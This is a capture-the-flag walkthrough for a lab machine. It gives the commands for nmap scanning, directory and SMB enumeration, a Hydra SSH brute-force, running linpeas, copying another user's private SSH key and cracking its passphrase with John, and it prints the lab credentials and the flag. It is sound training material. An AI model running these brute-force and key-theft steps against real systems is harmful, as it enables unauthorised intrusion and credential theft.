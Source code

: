 Tools used:
 - Nmap
 - Hydra
 - LinPeas.sh
 - enum4linux
 - dirbuster

1. Scanning the target machine

`nmap -A -vv -Pn <target-ip>`

Exposed Ports:
 - 22
 - 139 & 445 (SMB)
 - 80
 - 8080

2. Enumerate the services running (dirbuster/gobuster)

`dirbuster -l /path/to/wordlist/file/wordlist.txt http://<target-ip>`

Discovered Paths:
 - /development/
 - /development/dev.txt
 - /development/j.txt

Files in /development info:
 - port 80 is hosted on apache
 - one employee has a weak password, so it might be crackable(ssh possibly)

3. Enumerate SMB with enum4linux
`enum4linux -a <IP_address>` < enumerate everything

Discovered info:
 - kay
 - jan
 - //10.10.168.206/Anonymous (smb share)
 - Samba Server 4.3.11-Ubuntu


5. Bruteforce the ssh connection with Hydra

`hydra -l username-found -P /usr/share/wordlists/rockyou.txt  10.10.168.206 ssh -t 32`
 -l specifies a user name
 -L specifies a user wordlist
 -p specifies a password
 -P specifies a password list
 -t number of simultaneous threads(default 32)

 Discovered Info:
  - usr: jan | password: armando


6. Enumerate the target machine(from the inside)
 - `scp linpeas.sh jan@10.10.168.206:/dev/shm` < send LinEnum to  [ref: https://github.com/peass-ng/PEASS-ng/releases/tag/20240623-7d729c04]
 - chmod +x /dev/shm/linpeas.sh
 - ./linpeas.sh

Discovered info:
- kay has an exposed private rsa key

7. crack kay's priv key passphrase
- `scp jan@10.10.168.206:/home/kay/.ssh/id_rsa .`
- `ssh2john id_rsa > id_rsa.hash`
- `john id_rsa.hash -wordlist=/usr/share/wordlists/rockyou.txt`

Discovered Info:
 - key passphrase: beeswax



8. Got the flag inside kay's session
 - heresareallystrongpasswordthatfollowsthepasswordpolicy$$
